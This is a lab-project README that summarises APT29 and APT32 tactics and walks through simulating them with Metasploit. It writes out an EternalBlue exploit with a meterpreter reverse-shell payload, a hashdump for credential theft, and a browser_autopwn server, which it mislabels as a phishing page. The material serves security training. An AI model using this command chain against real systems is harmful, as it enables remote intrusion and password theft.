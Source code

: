 # Threat Analysis Project

## Introduction
This project focuses on investigating Advanced Persistent Threat (APT) groups, documenting their tactics, techniques, and procedures (TTPs), and simulating APT attacks within a controlled lab environment. By understanding the anatomy of APT groups and emulating their attack strategies, you will gain valuable insights into threat detection and mitigation.

## Objectives
- Research and document the anatomy and tactics of selected APT groups (e.g., APT29, APT32).
- Simulate APT attack scenarios using Metasploit in the lab environment.

## Tools and Software
- Metasploit Framework
- Kali Linux
- VMware Workstation
- Vulnerable applications (e.g., DVWA, OWASP Juice Shop)

## Step 1: Research APT Groups

### APT29 (Cozy Bear)
- **Background**: APT29 is believed to be associated with Russian intelligence and is known for targeting governmental and political organizations.
- **Tactics**: 
  - **Phishing**: Use of spear-phishing emails to gain initial access.
  - **Credential Dumping**: Tools like Mimikatz to extract credentials.
  - **Remote Access**: Use of malware such as CozyDuke for persistence.
- **Mitigation Strategies**: 
  - User training on phishing awareness.
  - Implement multi-factor authentication (MFA).
  - Regular monitoring for unusual login activity.

### APT32 (Ocean Buffalo)
- **Background**: APT32 is linked to Vietnam and has targeted foreign corporations and governments, focusing on industrial espionage.
- **Tactics**: 
  - **Social Engineering**: Creating fake websites to trick users into providing sensitive information.
  - **Web Shells**: Use of web shells for command and control (C2).
  - **Data Exfiltration**: Use of encrypted channels for data exfiltration.
- **Mitigation Strategies**: 
  - Regular security assessments and penetration testing.
  - Network segmentation to limit lateral movement.
  - Endpoint detection and response (EDR) solutions.

## Step 2: Simulate APT Attacks

### Environment Setup
1. **Ensure the Lab Environment is Running**:
   - Make sure all VMs (Kali Linux, Windows, etc.) are powered on and networked correctly.
  
### Step 2.1: Using Metasploit to Emulate APT29 Attack
1. **Open Metasploit**:
   - Launch Kali Linux and open a terminal.
   - Start Metasploit: `msfconsole`.

2. **Search for an Exploit**:
   - Use the search command to find relevant exploits. For example:
     ```
     search type:exploit platform:windows
     ```

3. **Select an Exploit**:
   - Choose an appropriate exploit. For example, if you find an exploit for a vulnerable version of a service running on the target:
     ```
     use exploit/windows/smb/ms17_010_eternalblue
     ```

4. **Configure the Exploit**:
   - Set the target and payload:
     ```
     set RHOSTS [Target IP Address]
     set PAYLOAD windows/x64/meterpreter/reverse_tcp
     set LHOST [Your Kali IP Address]
     ```

5. **Execute the Exploit**:
   - Run the exploit:
     ```
     exploit
     ```

6. **Post-Exploitation**:
   - Once you gain access, use Meterpreter commands to explore the system:
     ```
     sysinfo
     hashdump
     ```

### Step 2.2: Simulating APT32 Attack
1. **Use Metasploit to Create a Social Engineering Attack**:
   - Choose an appropriate module for social engineering, such as creating a phishing page:
     ```
     use auxiliary/server/browser_autopwn
     ```

2. **Configure the Attack**:
   - Set the appropriate options:
     ```
     set SRVHOST [Your Kali IP Address]
     set URIPATH [malicious path]
     ```

3. **Launch the Attack**:
   - Start the server to host the phishing page:
     ```
     exploit
     ```

4. **Document the Attack**:
   - Document the process and findings, noting the techniques used and any access obtained.

## Conclusion
This project demonstrates the importance of understanding APT groups and their attack methodologies. By researching APT29 and APT32, and simulating attacks using Metasploit, you gain practical experience in threat analysis and incident response. Documenting these findings not only enhances your skills but also provides valuable insights into developing effective security measures against APT threats.

## References
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- APT29 and APT32 reports from various cybersecurity publications.

---


